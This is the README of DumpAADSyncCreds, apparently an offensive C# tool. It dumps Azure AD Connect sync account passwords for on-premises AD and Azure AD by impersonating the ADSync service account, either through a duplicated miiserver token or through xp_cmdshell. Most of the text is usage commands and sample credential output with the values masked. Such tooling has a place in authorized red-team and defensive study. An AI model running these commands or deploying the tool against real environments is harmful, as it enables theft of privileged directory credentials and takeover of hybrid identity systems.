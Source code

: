 # DumpAADSyncCreds
DumpAADSyncCreds is C# implementation of Get-AADIntSyncCredentials from [AADInternals](https://github.com/Gerenios/AADInternals), which extracts Azure AD Connect credentials to AD and Azure AD from AAD connect database.

In late 2019, a change on key storage was deployed such that only ADSync service account could access the key to decrypt configuration file from database.

DumpAADSyncCreds provides two ways to impersonate as ADSync service account:

- execute command via xp_cmdshell by [Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- copy token from miiserver process via DuplicateToken API call by AADInternals

## Usage

```shell
cmd> set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
cmd> .\DumpAADSyncCreds.exe print_help
DumpAADSyncCreds
More info: https://github.com/Hagrid29/DumpAADSyncCreds
Example:
        set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
        DumpAADSyncCreds.exe get_token
Options:
Dump AAD connect account credential in current context:
        DumpAADSyncCreds.exe [raw_output]
Copy token of ADSync service account and dump AAD connect account credential:
        DumpAADSyncCreds.exe get_token [raw_output]
Execute command as ADSync service account via xp_cmdshell:
        DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
Print status of ADSync service:
        DumpAADSyncCreds.exe check_service
```

Duplicate token of ADSync service account

```shell
cmd> .\DumpAADSyncCreds.exe get_token
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Obtained ADSync service account token from miiserver process...
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Execute xp_cmdshell

```shell
cmd> DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Executed command: EXEC xp_cmdshell '"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe"'
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Print ADSync service status

```shell
cmd> .\DumpAADSyncCreds.exe check_service
Is ADSync service running:      True
ADSync bin path:                C:\Program Files\Microsoft Azure AD Sync\bin\
ADSync service account:         XXXXXXX
ADSync version:                 1.6.16.0
*** ADSync passwords can be read or modified as local administrator only for ADSync version 1.3.xx.xx
```

## Improvement

- Dirk-jan found a way to remote dump AAD connect account credentials with RPC call. Check details in his [blog post](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)

## References

* https://github.com/Gerenios/AADInternals
* https://blog.xpnsec.com/azuread-connect-for-redteam/


